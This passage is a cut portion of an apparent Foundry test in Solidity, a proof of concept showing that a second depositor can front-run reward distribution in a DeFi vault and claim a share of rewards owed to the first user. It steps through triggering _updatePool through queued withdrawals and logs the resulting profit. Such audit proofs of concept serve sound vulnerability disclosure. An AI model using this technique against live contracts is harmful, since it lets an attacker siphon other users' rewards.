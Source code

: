 ```solidity 
        );
        vm.stopPrank();
        
        console.log("User2 shares:", user2Shares);
        console.log("User2 share percentage: %s%%", (user2Shares * 100) / (user1Shares + user2Shares));
        
        // STEP 5: Force _updatePool to be called
        // This typically happens during operations like withdrawals
        console.log("===== STEP 5: Trigger reward distribution (_updatePool) =====");
        
        // We'll use a withdrawal to trigger _updatePool
        vm.prank(user1);
        uint256 withdrawalRound = IBaseVault(vault).queueWithdrawal(1, user1); // Queue a minimal withdrawal
        
        vm.prank(address(strategy));
        IBaseVault(vault).executeQueuedWithdrawals(); // This calls _updatePool internally
        
        // STEP 6: Check reward distribution
        // We need to find a way to check how rewards were distributed
        // This depends on how the contract handles rewards
        console.log("===== STEP 6: Check reward distribution =====");
    
        // Calculate approximate rewards based on share percentages
        uint256 totalShares = user1Shares + user2Shares;
        uint256 user1SharePercentage = (user1Shares * 100) / totalShares;
        uint256 user2SharePercentage = (user2Shares * 100) / totalShares;
        
        uint256 user1ExpectedRewards = (1000 ether * user1SharePercentage) / 100;
        uint256 user2ExpectedRewards = (1000 ether * user2SharePercentage) / 100;
        
        console.log("User1 expected rewards: ~%s AVAX (%s%% of shares)", user1ExpectedRewards / 1e18, user1SharePercentage);
        console.log("User2 expected rewards: ~%s AVAX (%s%% of shares)", user2ExpectedRewards / 1e18, user2SharePercentage);
        
        // STEP 7: Demonstrate the exploit
        console.log("===== STEP 7: Demonstrate the exploit =====");
        
        // Calculate how much User2 contributed vs. how much they're receiving
        // Convert to a common unit (AVAX equivalent)
        uint256 user2ContributionAVAX = 0.01 ether;
        uint256 user2ContributionUSDCInAVAX = (0.2e6 * 1e18) / (20e8); // Convert USDC to AVAX using price
        uint256 user2TotalContribution = user2ContributionAVAX + user2ContributionUSDCInAVAX;
        
        console.log("User2 contributed: %s AVAX equivalent", user2TotalContribution / 1e18);
        console.log("User2 expected rewards: %s AVAX", user2ExpectedRewards / 1e18);
        
        // Check if user2 is profiting
        if (user2ExpectedRewards > user2TotalContribution) {
            console.log("User2 profit: ~%s AVAX", (user2ExpectedRewards - user2TotalContribution) / 1e18);
        } else {
            console.log("User2 profit: negligible (but still unfair for time spent)");
        }
        
        // STEP 8: Show what User1 lost
        console.log("===== STEP 8: Show what User1 lost =====");
        
        // If User2 hadn't front-run, User1 would have received all rewards
        console.log("User1 would have received: 1000 AVAX (100%% of rewards)");
```